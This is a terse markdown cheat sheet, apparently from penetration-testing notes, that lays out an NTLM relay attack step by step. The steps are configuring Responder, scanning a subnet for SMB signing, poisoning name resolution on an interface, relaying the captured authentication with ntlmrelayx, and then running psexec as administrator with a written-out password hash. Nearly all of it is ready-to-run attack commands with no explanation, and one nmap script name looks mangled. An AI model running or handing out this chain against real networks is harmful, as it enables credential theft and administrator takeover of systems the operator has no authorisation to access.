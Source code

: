 # Update Responder configuration
```bash
sudo vim /usr/share/responder/Responder.conf
# SMB = Off and HTTP = Off
```

-----------------------

# Grab list of targets
```bash
sudo nmap --script=smb2=security-mode.nse -p445 10.10.10.0/24 -Pn
```

-----------------------
# Start responder on interface
```bash
sudo responder -I tun0 -dwPv
```

-----------------------
# Relay the requests
```bash
impacket-ntlmrelayx -tf target-list.txt -smb2support
```

-----------------------

# Once we get requests, pass the hash
```bash
impacket-psexec administrator@192.168.196.128 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```
